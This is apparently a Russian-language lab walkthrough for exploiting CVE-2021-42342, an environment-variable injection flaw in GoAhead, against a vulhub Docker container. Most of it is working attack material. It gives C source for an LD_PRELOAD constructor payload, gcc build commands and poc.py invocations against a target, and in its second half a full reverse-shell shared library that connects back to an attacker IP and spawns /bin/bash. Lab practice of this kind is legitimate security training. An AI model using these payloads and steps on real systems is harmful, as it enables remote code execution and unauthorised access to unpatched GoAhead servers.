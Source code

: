 # CVE-2021-42342

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2021-42342](https://nvd.nist.gov/vuln/detail/CVE-2021-42342)
* [https://cve.report/CVE-2021-42342](https://cve.report/CVE-2021-42342)
* [https://www.opencve.io/cve/CVE-2021-42342](https://www.opencve.io/cve/CVE-2021-42342)

В GoAhead 4.x и 5.x до версии 5.1.5 была обнаружена проблема. В фильтре загрузки файлов переменные формы пользователя могут быть переданы CGI-скриптам без префикса CGI. Это позволяет передавать переменные окружения в уязвимые CGI-скрипты.

Злоумышленник может использовать эту возможность для загрузки полезной нагрузки в виде разделяемого объекта в многокомпонентной форме и перехватить переменную окружения LD\_PRELOAD для выполнения произвольного кода.

Эта уязвимость является обходом патча [CVE-2017-17562 ](../../containers/goahead/cve-2017-17562.md)

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/goahead/CVE-2021-42342

Для запуска уязвимой среды выполните команду:

```
docker compose up -d 
```

После запуска по адресу http://ваш-ip:8080 будет доступна веб-страница GoAhead 3.6.4

Для эксплуатации уязвимости скомпилируйте данный код в динамическую библиотеку

```cpp
#include <unistd.h>

static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello: World!\n", 14);
}
```

Для компиляции в x86/64 среде выполните команду:

<pre><code><strong>gcc -shared -fPIC payload.c -o payload.so
</strong></code></pre>

Где payload.c - это файл с вышеупомянутым кодом

<figure><img src="../../.gitbook/assets/cve-2021-42342(1).png" alt=""><figcaption></figcaption></figure>

Далее используйте [данный](https://github.com/vulhub/vulhub/blob/master/goahead/CVE-2021-42342/poc.py) скрипт для реализации атаки

```
python poc.py http://target-ip:8080/cgi-bin/index /путь_до_файла/payload.so
```

В ответе мы можем видеть, что появился заголовок hello со значением World, что свидетельствует об успешном выполнении команды

<figure><img src="../../.gitbook/assets/cve-2021-42342(2).png" alt=""><figcaption></figcaption></figure>

Для получения обратной оболочки скомпилируйте следующий код:

```cpp
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="***";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

Где в переменную server\_ip впишите ip машины, на которую хотите получить оболочку

Для компиляции в x86/64 среде выполните команду:

```
gcc -shared -fPIC shell.c -o shell.so
```

Затем выполните команду&#x20;

```
python poc.py http://target-ip:8080/cgi-bin/index /путь/до/shell.so
```

<figure><img src="../../.gitbook/assets/cve-2021-42342(3).png" alt=""><figcaption></figcaption></figure>
